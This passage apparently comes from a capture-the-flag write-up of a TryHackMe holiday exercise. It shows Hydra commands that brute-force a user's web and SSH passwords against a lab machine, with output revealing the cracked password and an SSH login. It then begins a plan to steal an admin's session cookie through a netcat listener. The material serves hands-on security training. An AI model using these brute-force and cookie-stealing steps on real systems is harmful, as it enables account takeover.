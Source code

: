 ```console
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)
```console
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.193 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect."
```

## Use Hydra to bruteforce molly's SSH password. What is flag 2?
```console
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.193 -t 4 ssh
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-14 22:18:51
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.14.193:22/
[22][ssh] host: 10.10.14.193   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-14 22:19:50
kali@kali:~$ ssh molly@10.10.14.193
molly@ip-10-10-14-193:~$ ls
flag2.txt
molly@ip-10-10-14-193:~$ cat flag2.txt
```

# Day 18 : ELF JS 
```
McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - it may take a few minutes to deploy.
```
READ [this](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#)


## What is the admin's authid cookie value?
start by creating a account and log in to the forum. The plan is setting up a web server to recieve incoming cookie from the forum by using netcat (I learn this from BANDIT LV 20 so go check out). To setup the server, run ```nc -lvp 20000```. -l for listen, -v for verbose, and -p for port nummber.
